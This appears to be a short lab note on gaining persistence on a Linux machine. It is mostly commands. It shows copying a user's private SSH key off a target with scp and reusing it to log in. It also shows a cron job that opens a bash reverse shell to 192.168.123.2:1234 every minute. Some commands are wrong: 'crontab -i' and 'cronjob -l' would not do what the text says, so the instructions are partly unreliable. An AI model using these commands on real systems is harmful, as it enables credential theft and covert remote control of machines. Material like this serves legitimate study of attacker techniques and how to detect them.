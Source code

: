 
<h4>Persistence via ssh keys</h4>

To download the file from the target machine
```
scp student@192.168.123.3:~/.ssh/id_rsa .
```
Give the private key permission
```
chmod 400 id_rsa
```
Logging in back with the id_rsa
```
ssh student@192.168.123.3 -i id_rsa
```



<h4>Persistence via cronjobs</h4>

>To create a cronjob, a simple cron file has to be created and added and to the crontab

creating the cron file
```
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.123.2/1234 0>&1'" > cron
```
Now, this will run everytime since there are 5 astericks.

To add the cronjob
```
crontab -i cron
```
To view the list of cronjobs
```
cronjob -l
```